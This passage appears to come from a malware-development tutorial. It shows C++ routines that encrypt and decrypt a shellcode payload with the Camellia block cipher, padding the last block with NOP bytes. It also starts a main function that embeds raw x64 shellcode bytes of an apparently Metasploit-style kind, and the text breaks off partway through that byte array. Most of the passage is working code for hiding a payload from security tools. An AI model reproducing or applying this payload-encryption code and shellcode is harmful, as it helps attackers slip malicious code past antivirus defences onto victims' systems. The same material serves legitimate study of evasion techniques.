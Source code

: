 As I wrote, Camellia uses a Feistel network structure.     

And the main logic is encrypts/decrypts the payload in blocks of `16` bytes, handles padding for the last block using the NOP (`0x90`) byte:      

```cpp
// encrypt payload with padding
void camellia_encrypt_payload(unsigned char *payload, int payload_len, uint64_t key1, uint64_t key2) {
  int i;
  for (i = 0; i < payload_len / BLOCK_SIZE; i++) {
    camellia_encrypt_block(payload + i * BLOCK_SIZE, key1, key2);
  }
  // check if there are remaining bytes
  int remaining = payload_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, payload + (payload_len / BLOCK_SIZE) * BLOCK_SIZE, remaining);
    camellia_encrypt_block(pad, key1, key2);
    memcpy(payload + (payload_len / BLOCK_SIZE) * BLOCK_SIZE, pad, remaining);
  }
}

// decrypt payload
void camellia_decrypt_payload(unsigned char *payload, int payload_len, uint64_t key1, uint64_t key2) {
  int i;
  for (i = 0; i < payload_len / BLOCK_SIZE; i++) {
    camellia_decrypt_block(payload + i * BLOCK_SIZE, key1, key2);
  }
  // check if there are remaining bytes
  int remaining = payload_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, payload + (payload_len / BLOCK_SIZE) * BLOCK_SIZE, remaining);
    camellia_decrypt_block(pad, key1, key2);
    memcpy(payload + (payload_len / BLOCK_SIZE) * BLOCK_SIZE, pad, remaining);
  }
}
```

And the main function:    

```cpp
int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
```
